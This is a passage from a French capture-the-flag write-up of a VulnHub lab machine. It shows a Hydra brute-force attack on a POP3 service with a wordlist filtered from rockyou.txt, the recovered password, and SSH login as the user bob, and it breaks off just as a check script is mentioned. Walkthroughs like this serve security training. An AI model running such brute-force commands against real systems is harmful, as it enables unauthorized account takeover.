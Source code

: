 ```shellsession
The boss has already informed me about you and that you need help accessing the server.
Sorry, I forgot my password, but I remember the password was simple.
.
QUIT
+OK Logging out.
```

Pauvre bob, allez on va l'aider à retrouver son mot de passe. Ca aurait pu être très long de bruteforcer le pop3 ou le ssh, heureusement un indice a été ajouté sur la page VulnHub du CTF :

> Hints: 'cat rockyou.txt | grep bobby > wordlist' for generating wordlist.

On s'exécute et on lance notre attaque :

```shellsession
$ hydra -l bob -P pass.txt -e nsr pop3://192.168.56.67/CLEAR
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-29 22:49:08
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 2456 login tries (l:1/p:2456), ~154 tries per task
[DATA] attacking pop3://192.168.56.67:110/CLEAR
[STATUS] 81.00 tries/min, 81 tries in 00:01h, 2375 to do in 00:30h, 16 active
[STATUS] 64.33 tries/min, 193 tries in 00:03h, 2263 to do in 00:36h, 16 active
[STATUS] 59.57 tries/min, 417 tries in 00:07h, 2039 to do in 00:35h, 16 active
[110][pop3] host: 192.168.56.67   login: bob   password: bobby1985
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-29 22:58:46
```

L'URL donnée à `Hydra` force le programme à utiliser une authentification en clair (sans encodage base64 ni quelque chose de plus poussé). Ca a tout de même pris près de 10 minutes !

## Sudo au carré

L'utilisateur n'a pas d'emails mais bonne nouvelle, le mot de passe fonctionne aussi pour SSH :

```shellsession
bob@MailServer:~$ cat todo 
1. Install postfix and dovecot
2. Write a letter to the penetration tester about the server.
3. Write a script to check the server.
4. Create my2user to backup important data.(I think for security reasons I will back up important data with the help of another user)
```

Effectivement il y a un user `my2user`. bob aurait-il mené à bien toutes ses taches ?

`uid=1001(my2user) gid=1001(my2user) groups=1001(my2user)`

Ca semble être le cas car on retrouve un script à lui pour "checker" le serveur :

